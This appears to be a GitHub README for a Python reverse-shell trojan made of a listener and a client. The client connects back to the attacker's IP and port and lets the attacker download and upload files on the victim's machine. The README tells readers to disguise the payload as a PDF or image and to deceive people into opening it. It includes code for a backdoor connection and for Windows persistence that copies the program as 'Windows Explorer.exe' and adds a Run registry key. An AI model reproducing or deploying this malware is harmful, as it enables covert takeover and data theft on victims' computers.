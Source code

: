 # Python Reverse Shell For Trojan
Runs a reverse shell via TCP with capacity of download and upload any file from your machine to the victim's machine and vice versa. You can hide it in a simple file (like a pdf), and using reverse engineering, you can to get the person you send file to run the program believing that this is a normal pdf (or another) file.
The tool consists of two files: listener.py and reverse_shell.py.
## listener.py
Runs a TCP server in the attacker's machine and goes into listening mode, waiting for the connection from victim's machine.
### Usage:
`python3 listener.py [OPTIONS]`
### Flags:
- **-i, --ip:** Ip address to listening
- **-p, --p:** Port number to listening
- **-h, --help:** Show list of commands

### Commands:
Once the victim has connected to our server, we can run the commands from his machine like a normal reverse shell, but also, this tool has 4 own commands:
- **exit, Exit:** Finishes client-server connection.
- **down:** Download any file from client's side to our machine. The structure has to be down + [dest_path] + [file_name]. 
Example:
`$down /home/user/Documents/ file.txt`
Where [dest_path] is the route where we want to download the file **(don't add a file name here, just the path)**, and [file_name] is the name of the file in the victim's machine. The tool will use [file_name] to name the downloaded file.
- **up:** Up any file from our machine to the victim's machine. The structure has to be up + [dest_path] + [file_name].
Example:
`$up /home/victim_folder/Desktop/folder/ /home/our_user/file.txt`

## reverse_shell.py
Connects via TCP to listener server.  It runs once a person opens it; you can hide it in a pdf file, png, jpg, etc. Use your social engineering skills to deceive people to open it ;).
### Configuration
At the end of the code, set the ip and port where to establish the connection:
```python
try: 
    backdoor = Backdoor('<ip>', <port>) # CHANGE HOST AND PORT HERE!
    backdoor.run()
except:
    sys.exit()
```
The ip and port have to be the same as you set in 'listener.py', because this is where connection will be established.
### Persistent mode
```python
def becomePersistent(self):
        fileLocation = os.environ['appdata'] + '\\Windows Explorer.exe'
        if not os.path.exists(fileLocation):
            shutil.copyfile(sys.executable, fileLocation)
            subprocess.call('reg add HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v update /t REG_SZ /d "' + fileLocation + '"', shell=True)
```
Locate the file into a hard-to-find path and runs it every time that the system turns on. In this case, the function creates a registry of the file and runs it when the machine turns on. As the reverse shell is destined to a common user, the persistent mode is made to run into Windows system (because a common user uses Windows).
**Important:** If you want to test the persistent mode, I recommend you do it into a virtual machine to avoid some damage into your own computer.


